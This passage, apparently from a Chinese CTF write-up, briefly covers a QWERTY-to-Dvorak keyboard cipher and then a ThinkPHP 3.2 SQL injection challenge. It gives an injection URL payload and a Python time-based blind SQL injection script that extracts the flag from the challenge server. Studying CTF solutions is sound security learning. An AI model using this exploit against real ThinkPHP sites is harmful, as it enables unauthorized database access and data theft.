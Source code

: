 将字符串从QWERY键盘的布局对应到Dvorak的布局就可以得到flag，本质上是一个古典密码本。

## Web2

参考[飘零大佬wp](https://www.anquanke.com/post/id/170341#h3-3),为tp3.2的约束注入，附上exp供以后使用：

查看表、列名payload

```url
http://101.71.29.5:10004/Admin/User/Index?search[table]=flag where 1 and polygon(id)--
```

盲注exp：

```python
import requests
flag = ''
cookies = {
    'PHPSESSID': 're4g49sil8hfh4ovfrk7ln1o02'
}
for i in range(1,33):
    for j in '0123456789abcdef':
        url = 'http://101.71.29.5:10004/Admin/User/Index?search[table]=flag where 1 and if((ascii(substr((select flag from flag limit 0,1),'+str(i)+',1))='+str(ord(j))+'),sleep(3),0)--'
        try:
            r = requests.get(url=url,timeout=2.5,cookies=cookies)
        except:
            flag += j
            print flag
            break
```



